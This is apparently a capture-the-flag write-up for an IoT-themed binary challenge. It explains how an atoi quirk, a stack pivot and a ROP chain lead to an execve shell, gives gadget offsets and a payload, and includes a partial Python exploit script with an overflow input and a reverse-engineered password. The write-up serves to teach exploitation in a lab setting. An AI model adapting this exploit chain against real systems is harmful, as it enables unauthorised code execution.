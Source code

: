 
We are allowed to enter up to 100 bytes and this input is processed by the ```resp``` variable converting ```atoi(buf)```. I started my input with a "4AAAAAAAA". As a result of this ```buf = 4AAAAAAAA``` and ```resp = 4``` because ```atoi(buf)``` only understands base 10 digits. It will stop when it encounters a character that is not a digit, this allows us to still trigger ```lightbulb.toggle``` provided the first character is a 4. 

Before writing an ROP chain, I needed to stack pivot the ```rsp``` register to the ```buf``` variable. I used ROPGadget and added the code to my script for the pivot, addresses of the other gadgets that I needed for an ROP chain followed by my payload.

```C
# Slide stack by 0x28
stackPivot = baseAddress + 0x34ad2

binShAddress = baseAddress + 0x18cd57

popRdiAddress = baseAddress + 0x000000021102

popRaxAddress = baseAddress + 0x33544
popRsiAddress = baseAddress + 0x202e8
popRdxAddress = baseAddress + 0x1b92

syscallAddress = baseAddress + 0xbc375

payload = b"4" + (b"\x90" * 15) + p64(popRdiAddress) + p64(binShAddress) + p64(popRaxAddress) + p64(0x3b) + p64(popRsiAddress) + p64(0x0) + p64(popRdxAddress) + p64(0x00) + p64(syscallAddress)
p.sendline(payload)
```

I was able to ```cat flag``` and capture the flag (flag{The_S_1n_IOT_5t4ndz_f0r_S3cur1ty})

The full script is avaliable below:

```Python
import interact
import struct
import re

# Pack integer 'n' into a 8-Byte representation
def p64(n):
    return struct.pack('Q', n)

# Unpack 8-Byte-long string 's' into a Python integer
def u64(s):
    return struct.unpack('Q', s)[0]

p = interact.Process()

p.readuntil('Enter Choice:')
p.sendline('4')
p.readuntil('Press TEST? [Y/n]')
p.sendline('Y')
p.readuntil('Enter phone number to test:')
# OVERFLOW
p.sendline('1234567\x18\x05')
p.readuntil('Enter Choice:')
p.sendline('2')
p.readuntil('Enter Choice:')
p.sendline('2')
p.readuntil('Enter temperature:')
p.sendline('370')
p.readuntil('Enter Choice:')
p.sendline('3')
p.readuntil('{PASSWORD REQUIRED TO CONTINUE}')
# REVERSE ENGINEERED PASSWORD
p.sendline(b'\x05\x05\x29\x72\x69\x71\x76\x79\x52\x45\x35\x07')
```